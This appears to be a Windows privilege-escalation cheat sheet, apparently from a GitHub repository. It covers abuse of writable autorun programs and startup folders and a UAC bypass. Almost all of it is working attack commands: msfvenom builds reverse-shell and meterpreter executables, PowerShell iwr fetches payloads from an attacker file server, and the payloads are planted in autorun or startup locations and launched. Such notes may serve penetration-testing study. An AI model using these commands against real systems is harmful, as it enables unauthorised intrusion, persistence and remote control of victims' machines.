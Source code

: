 ### Autorun
-> Detection - windows
```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu ""C:\Program Files\Autorun Program"  
\\FILE_ALL_ACCESS
```
-> Exploitation - kali
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f exe -o program.exe
```
```
iex (iwr http://<file_server_IP>/PowerView.ps1 -Outfile program.exe)
move program.exe "C:\Program Files\Autorun Program"
logoff
```

### Startup Applications
-> Detection - Windows
```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" | findstr (F) 
\\BUILTIN\Users:(F)
```

-> msfvenom - Attacker VM
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o ok.exe
```

-> Exploitation - Windows
```
iex (iwr http://<file_server_IP>/PowerView.ps1 -Outfile ok.exe)
move ok.exe “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”
logoff
```

### Bypass UAC
After obtaining a reverse shell on a machine with a local administrator user, it may be necessary to bypass User Account Control (UAC) to perform specific malicious actions, such as persistently installing malware, modifying security settings, or exploiting system vulnerabilities. This can be done through specialized techniques and tools designed to bypass the restrictions imposed by UAC.
https://decoder.cloud/2017/02/03/bypassing-uac-from-a-remote-powershell-and-escalting-to-system/
#### EventViewer
-> Step 1 - Kali
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -f exe > ok.exe
```

-> Step 2 - Win Owned  
```
cd C:\Windows\tasks
iwr -uri 192.168.119.139:805/shell.exe -Outfile shell.exe
Start-Process -NoNewWindow -FilePath C:\Windows\Tasks\shell.exe
```
